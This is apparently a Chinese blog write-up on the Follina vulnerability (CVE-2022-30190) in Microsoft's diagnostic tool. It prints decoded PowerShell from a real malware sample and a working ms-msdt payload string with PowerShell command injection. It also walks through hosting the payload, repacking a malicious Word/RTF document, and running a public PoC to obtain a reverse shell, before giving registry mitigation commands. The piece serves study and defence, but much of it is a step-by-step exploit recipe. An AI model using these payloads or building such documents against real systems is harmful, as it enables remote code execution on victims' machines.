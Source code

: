 ﻿# CVE-2022-30190
```
https://msrc-blog.microsoft.com/2022/05/30/guidance-for-cve-2022-30190-microsoft-support-diagnostic-tool-vulnerability/
```
在微软官方的介绍里，是从 Word 等调用应用程序使用 URL 协议调用 MSDT 时存在远程执行代码漏洞。成功利用此漏洞的攻击者可以使用调用应用程序的权限运行任意代码。

![在这里插入图片描述](https://img-blog.csdnimg.cn/ba54c8e3e99047baad039d2d0a55b27c.png)

意思是恶意 Word 文档可以使用远程模板功能从远程服务器获取 HTML 文件，并且 HTML 代码可以使用 Microsoft 的 MS-MSDT URI 协议方案来加载其他代码并执行 PowerShell 代码

与其他的漏洞不同，要利用此漏洞，攻击者只需要用户打开恶意文档即可，保存为RTF文件后，用户只是预览恶意文件，不用单击或者双击恶意文件也会执行代码

我在ANY.RUN上下载了样例和漏洞代码来进行分析
```
https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/
```
这是一个交互式恶意软件分析沙箱，我做恶意软件分析常用的网站

![在这里插入图片描述](https://img-blog.csdnimg.cn/ce1f7d34e41e486ba990a402568642b1.png)

我将样例放到linux机子上来进行分析，上面说过，这个漏洞是从 Word 等调用应用程序使用 URL 协议调用 MSDT 时存在远程执行代码漏洞，也就是文档的xml文件从外部引用了一个链接，然后执行了恶意代码

我们使用unzip命令解压word文档，来分析这个xml文件
```
unzip 05-2022-0438.doc
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/630057965947486ca4fc560b5f87dd2f.png)

漏洞利用就发生在这个xml文件里，我们打开分析

![在这里插入图片描述](https://img-blog.csdnimg.cn/9d9fad2cf0504509869b5a03fd5809e0.png)

在这里对外部文件进行了引用，我们在ANY.RUN上查看这个被引用文件的源代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/d824ea373a254fb6ad693c884f561839.png)

该HTML文档以脚本标签开头，代码为

![在这里插入图片描述](https://img-blog.csdnimg.cn/c62606bd0b744ddb9ce9d076adc77729.png)

代码分析：
```
window.location.href：设置了一个窗口
ms-msdt：是windows的诊断工具
之后就是ms-msdt的一些参数，不重要
```
关键在于如下

![在这里插入图片描述](https://img-blog.csdnimg.cn/b781a25edfcc4fd0b09960f57637f81d.png)

关于上面很多的A字符，我在文章底部会说
他调用了powershell，执行的内容经过了base64加密，我们解密看看

![在这里插入图片描述](https://img-blog.csdnimg.cn/9f53618401654a72af6fb46457cba371.png)
```
$cmd = "c:\windows\system32\cmd.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c taskkill /f /im msdt.exe";
Start-Process $cmd -windowstyle hidden -ArgumentList "/c cd C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";
```

```
启动隐藏窗口然后：
如果 msdt.exe 正在运行，则终止它
循环遍历 RAR 文件中的文件，查找编码 CAB 文件的 Base64 字符串
将此 Base64 编码的 CAB 文件存储为1.t
解码Base64编码的CAB文件保存为1.c
将1.c CAB文件展开到当前目录，最后：
执行rgb.exe
```

关键就在于这，windows会毫无限制的盲目执行这个powershell，如果我们修改成想执行的代码，就会导致远程代码执行漏洞

漏洞利用的办法很简单，我们只需要修改一下这个xml文件，让他引用我们网站上的恶意代码就好了

![在这里插入图片描述](https://img-blog.csdnimg.cn/f5a8ea4eb779432580ddc5f3f5c7a281.png)

# 漏洞利用

这里我们弹一个计算器

```
location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc)/.exe\"";
```
```
在 IT_BrowseForFile 参数的开头至少需要两次 /../ 目录遍历
包含在 $() 中的代码将通过 PowerShell 执行
.exe”必须是出现在 IT_BrowseForFile 参数末尾的最后一个字符串
```

然后将内容放入html文件里

![在这里插入图片描述](https://img-blog.csdnimg.cn/89f71b9c8ed84833ad8ef4d6f931821a.png)

注意，apache需要开启ssl，不然就无法成功复现
```
https://techexpert.tips/zh-hans/apache-zh-hans/%E5%9C%A8-apache-%E4%B8%8A%E5%90%AF%E7%94%A8-https/
```
开启apache服务后，将此文件放到网站根目录上
```
service apache2 start
cp RDF842l.html /var/www/html
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/e08afaa1d2954ea785b20c031c5b2f4a.png)

然后将xml里的外部引用改成我们网站

![在这里插入图片描述](https://img-blog.csdnimg.cn/f213bcb4218f4cccb10659b07e896ae4.png)

修改好后，我们将解压再压缩回去
```
zip -r /home/kali/cve-2022-30190/shell.doc word/* _rels/* _rels/ _rels/.rels \[Content_Types\].xml
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/a8f13790e29d41e2a572917383fce7d4.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/a20837cebf6d4731b2554751a5ac1ab4.png)

然后复制到目标靶机上双击执行

![在这里插入图片描述](https://img-blog.csdnimg.cn/a55dc39dbb654c9793da06d7ad88a37a.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20564982b5f842ba802b5d9471570594.png)

成功弹出计算器，上面说过，保存为RTF文件后，用户只是预览恶意文件，不用单击或者双击恶意文件也会执行代码

我们将恶意文件另存为RTF文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/445b0ddab31a4a58a7412e4b05bd987b.png)
然后我ctrl+A全选了一下文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/9b3d227177ba4f9ebc999feb337389ad.png)

成功弹出计算器

# POC利用
poc下载：
```
https://github.com/JohnHammond/msdt-follina
```
输入以下参数可以获取shell
```
python3 follina.py -r 4444
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/07ae19dd6c134141821523ef7d6507fb.png)


他会在这个poc的目录里生成一个follina.doc文档，我们下载他，然后放到靶机上执行


![在这里插入图片描述](https://img-blog.csdnimg.cn/95730194c98e4407ac144af764af8226.png)

成功拿到shell

![在这里插入图片描述](https://img-blog.csdnimg.cn/4b5408e92f864033a9ef22542be97c95.png)
# 漏洞修复

运行cmd执行以下两条命令
```
reg export HKEY_CLASSES_ROOT\ms-msdt filename
reg delete HKEY_CLASSES_ROOT\ms-msdt /f
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fc3405f1ff0d4a7c95d18c001221c310.png)

再次执行恶意文件

![在这里插入图片描述](https://img-blog.csdnimg.cn/3c1a94114b504a8aa85c2f6457463a52.png)

已无法弹出计算器

# 总结
此文章是对该漏洞学习与分析的笔记，学到了很多，关于此漏洞，他和cve-2021-40444很像，网站脚本上的4096个A，其实是使windows诊断工具的缓冲区大小，我们正常运行的话，是需要我们输入密码的，如果超过了程序的缓冲区大小，就会执行微软发布的官方安全更新中的代码

![在这里插入图片描述](https://img-blog.csdnimg.cn/475937b1ce5e4a339ccc4b152809e60b.png)

之后有空就写一篇CVE-2021-40444的分析和复现
